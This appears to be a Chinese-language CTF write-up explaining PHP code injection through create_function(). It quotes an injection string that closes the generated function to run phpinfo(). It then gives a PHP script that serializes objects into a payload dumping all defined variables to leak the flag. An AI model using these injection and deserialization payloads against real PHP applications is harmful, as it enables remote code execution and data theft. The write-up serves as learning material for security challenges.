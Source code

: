 func可以用creat_function()进行代码注入 [解析create_function()(seebug.org)](https://paper.seebug.org/94/)

> 创建匿名函数：
>
> ```php
> create_function('$name','echo $name."a"')
> ```
>
> 就类似于
>
> ```php
> function name($name) {
> 	echo $name."a";
> }
> ```
>
> 那么传入`a=;}phpinfo();/*`就会得到：
>
> ```php
> function name($name) {
> 	echo $name;}phpinfo();/*;
> }
> ```
>
> ;}将前面的语句和函数闭合，/*把后面的;}注释掉，phpinfo()；就成功执行了

这里也是一样：

1. func=creat_function
2. arg=;}a();/*

**然后就是看如何拿到flag**

1. 起初看到`include "flag.php"`，就想通过`$get_defind_vars()`输出所有变量从而获得$flag的值
   ```php
   <?php
   class A {
       public $var;
       public function __construct(){
           $this->var = new B();
       }
   }
   
   class B{
       public $func="create_function";
       public $arg=";}var_dump(get_defined_vars());//";
       }
   
   $a = new A();
   echo serialize($a);
   
   ?>
   ```
